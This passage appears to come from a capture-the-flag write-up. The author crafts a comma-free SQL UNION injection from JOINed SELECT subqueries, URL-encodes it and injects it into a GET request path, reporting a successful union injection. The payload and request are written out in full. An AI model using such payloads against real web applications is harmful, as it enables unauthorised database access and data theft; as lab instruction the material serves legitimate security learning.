 And with that, I took the following string:

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

And formatted it as stated above:

`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%202)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

Then finally injected it into the URL...

`GET /detail/1,2%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%202)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g-- HTTP/2`

And I got a solid union injection!!!

![Union](img/obj12-4/img2.png)
